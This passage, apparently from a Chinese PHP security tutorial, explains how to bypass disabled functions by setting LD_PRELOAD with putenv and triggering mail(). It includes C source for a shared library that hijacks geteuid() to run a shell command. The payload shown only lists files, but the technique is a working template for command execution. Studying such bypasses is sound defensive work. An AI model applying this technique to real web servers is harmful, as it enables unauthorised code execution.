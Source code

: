 还要php语言客户端: [fastcgi客户端PHP语言实现](http://nullget.sourceforge.net/?q=node/795&lang=zh-hans)



## LD_PRELOAD绕过

### send_mail



这里我们先来看一下原理，首先什么是LD_PRELOAD？

google给出如下定义

```
LD_PRELOAD is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.
```

即LD_PRELOAD这个环境变量指定路径的文件，会在其他文件被调用前，最先被调用

而putenv可以设置环境变量

```php
putenv ( string $setting ) : bool
```

添加 setting 到服务器环境变量。 环境变量仅存活于当前请求期间。 在请求结束时环境会恢复到初始状态。

那么我们可以进行一下骚操作

>1.制作一个恶意shared libraries
>2.使用putenv设置LD_PRELOAD为恶意文件路径
>3.使用某个php函数，触发specific shared library

#### 利用函数

`putenv,errorlog,mail`

#### 如何制作shared libraries

选择要替换的函数我们这里选取geteuid()

理由是php的mail()函数会调用系统的sendmail命令而sendmail命令会调用getuid()这个函数,所以我们确定目标为geteuid函数

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
	system("ls > result.txt");
	}
    int  geteuid() {
    if (getenv("LD_PRELOAD") == NULL) 
    { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
  	}
```
